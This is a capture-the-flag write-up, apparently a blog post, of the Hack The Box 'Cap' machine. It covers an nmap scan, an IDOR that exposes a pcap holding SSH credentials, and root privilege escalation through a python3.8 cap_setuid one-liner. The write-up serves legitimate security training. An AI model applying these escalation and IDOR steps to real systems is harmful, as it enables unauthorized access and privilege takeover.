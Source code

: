 ```yaml
---
title: "Pcap | Easy Hackthebox Room"
description: "An easy hackthebox room."
pubDate: 2024-11-19
tags: ["web-security","idor", "pcap", "wireshark"]
---
```


# Enumeration

```shell
nmap -sC -sV -oN nmap/initial 10.10.10.245
```

```ruby
Nmap scan report for 10.10.10.245
Host is up (0.86s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 10 Nov 2024 19:02:38 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sun, 10 Nov 2024 19:02:31 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sun, 10 Nov 2024 19:02:32 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
```

3 ports are open!

**Testing for ftp anonymous connection failed!**

# Port 80 (IDOR)

visiting website indicates it's a network stuff dashboard:

![](/images/hackthebox/cap/cap-port-80.png)

Hmm, static page. Let's explore the second one!

![](/images/hackthebox/cap/cap-pcap-idor.png)

Hmm, It shows 3 in the URL... what if we changed it to 0? Let's try!

![](/images/hackthebox/cap/cap-idor-0.png)

It worked!

# Sensitive Pcap File

Let's Download the pcap file and explore it with wireshark.

![](/images/hackthebox/cap/cap-pcap-0.png)

Voila! We got credentials!!!

Let's login on ssh with these credentials!

```powershell
nathan @cap: ~$ id
uid = 1001(nathan) gid = 1001(nathan) groups = 1001(nathan)
nathan @cap: ~$ cat user.txt
REDACTED!
```

Nice One!

# Privilege Escalation

Running `linpeas.sh` revealed this:

```shell
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Searching on [gtfobins](https://gtfobins.github.io/gtfobins/python/#capabilities) we knew it's a priv esc vector! Let's run it!

```shell
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# whoami
root
root@cap:~# cat /root/root.txt
REDACTED!
```
